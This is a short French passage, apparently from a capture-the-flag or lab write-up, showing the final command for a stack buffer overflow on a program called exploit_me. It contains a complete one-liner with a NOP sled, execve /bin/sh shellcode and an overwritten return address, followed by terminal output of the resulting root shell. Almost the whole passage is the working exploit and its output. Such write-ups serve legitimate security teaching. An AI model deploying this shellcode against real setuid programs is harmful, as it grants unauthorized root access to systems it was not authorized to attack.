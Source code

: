 Notre commande finale est donc :

`./exploit_me $(python -c 'print("\x90"*95 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\xbf\xff\xf6\x50"[::-1])')`

```shell
$ ./exploit_me $(python -c 'print("\x90"*95 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\xbf\xff\xf6\x50"[::-1])')
^1��FF

      V
      ̀1ۉ@̀/bin/shP
# id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
# whoami
root
#
```
